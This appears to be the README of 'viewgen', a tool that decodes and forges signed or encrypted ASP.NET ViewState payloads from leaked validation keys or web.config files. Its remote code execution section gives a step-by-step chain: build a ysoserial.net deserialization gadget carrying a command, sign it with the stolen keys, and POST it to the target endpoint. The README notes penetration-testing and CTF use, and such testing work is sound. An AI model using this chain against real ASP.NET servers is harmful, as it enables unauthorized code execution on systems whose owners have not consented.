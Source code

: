 # Viewgen

### ASP.NET ViewState Generator

**viewgen** is a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys or `web.config` files

---------------

### Installation

**Requirements**: Python 3

`pip3 install --user --upgrade -r requirements.txt` or `./install.sh`

**Docker**

`docker build -t viewgen .`

---------------

### Usage
```
$ viewgen -h
usage: viewgen [-h] [--webconfig WEBCONFIG] [-m MODIFIER]
               [--viewstateuserkey VIEWSTATEUSERKEY] [-c COMMAND] [--decode]
               [--guess] [--check] [--vkey VKEY] [--valg VALG] [--dkey DKEY]
               [--dalg DALG] [-u] [-e] [-f FILE] [--version]
               [payload]

viewgen is a ViewState tool capable of generating both signed and encrypted
payloads with leaked validation keys or web.config files

positional arguments:
  payload               ViewState payload (base 64 encoded)

options:
  -h, --help            show this help message and exit
  --webconfig WEBCONFIG
                        automatically load keys and algorithms from a
                        web.config file
  -m MODIFIER, --modifier MODIFIER
                        VIEWSTATEGENERATOR value
  --viewstateuserkey VIEWSTATEUSERKEY
                        ViewStateUserKey CSRF value
  -c COMMAND, --command COMMAND
                        command to execute
  --decode              decode a ViewState payload
  --guess               guess signature and encryption mode for a given
                        payload
  --check               check if modifier and keys are correct for a given
                        payload
  --vkey VKEY           validation key
  --valg VALG           validation algorithm
  --dkey DKEY           decryption key
  --dalg DALG           decryption algorithm
  -u, --urlencode       URL encode viewstates
  -e, --encrypted       ViewState is encrypted
  -f FILE, --file FILE  read ViewState payload from file
  --version             show viewgen version
```

---------------

### Examples

```bash
$ viewgen --decode --check --webconfig web.config --modifier CA0B0334 "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[+] ViewState
(('1628925133', (None, [3, (['enctype', 'multipart/form-data'], None)])), None)
[+] Signature
7441f6eeb4fab5a5f30d6ba99908c08eb683b9e6
[+] Signature match

$ viewgen --webconfig web.config --modifier CA0B0334 "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRk"
r4zCP5CdSo5R9XmiEXvp1LHVzX1uICmY7oW2WD/gKS/Mt/s+NKXrMpScr4Gvrji7lFdHPOttFpi2x7YbmQjEjJ2NdBMuzeKFzIuno2DenYF8yVVKx5+LL7LYmI0CVcNQ+jH8VxvzVG58NQIJ/rSr6NqNMBahrVfAyVPgdL4Eke3Bq4XWk6BYW2Bht6ykSHF9szT8tG6KUKwf+T94hFUFNIXXkURptwQJEC/5AMkFXMU0VXDa

$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

$ viewgen --guess "zUylqfbpWnWHwPqet3cH5Prypl94LtUPcoC7ujm9JJdLm8V7Ng4tlnGPEWUXly+CDxBWmtOit2HY314LI8ypNOJuaLdRfxUK7mGsgLDvZsMg/MXN31lcDsiAnPTYUYYcdEH27rT6taXzDWupmQjAjraDueY="
[!] ViewState is encrypted
[+] Algorithm candidates:
AES SHA1
DES/3DES SHA1
```

---------------

### Achieving Remote Code Execution

Leaking the `web.config` file or validation keys from ASP.NET apps results in RCE via ObjectStateFormatter deserialization if ViewStates are used.

You can use the built-in `command` option ([ysoserial.net](https://github.com/pwntester/ysoserial.net) based) to generate a payload:

```bash
$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```

However, you can also generate it manually:

**1 -** Generate a payload with [ysoserial.net](https://github.com/pwntester/ysoserial.net):

```bash
> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "ping yourdomain.tld"
```

**2 -** Grab a modifier (`__VIEWSTATEGENERATOR` value) from a given endpoint of the webapp

**3 -** Generate the signed/encrypted payload:

```bash
$ viewgen --webconfig web.config --modifier MODIFIER PAYLOAD
```

**4 -** Send a `POST` request with the generated ViewState to the same endpoint

**5 -** Profit 🎉🎉

---------------

**Thanks**

- [@orange_8361](https://twitter.com/orange_8361), the author of *Why so Serials* (HITCON CTF 2018)
- [@infosec_au](https://twitter.com/infosec_au)
- [@smiegles](https://twitter.com/smiegles)
- **BBAC**
- All contributors

---------------

**CTF Writeups**

- https://xz.aliyun.com/t/3019
- https://cyku.tw/ctf-hitcon-2018-why-so-serials/

**Blog Posts**

- https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

**Talks**

- https://illuminopi.com/assets/files/BSidesIowa_RCEvil.net_20190420.pdf
- https://speakerdeck.com/pwntester/dot-net-serialization-detecting-and-defending-vulnerable-endpoints

---------------

### ⚠ Legal Disclaimer ⚠

This project is made for educational and ethical testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this tool.
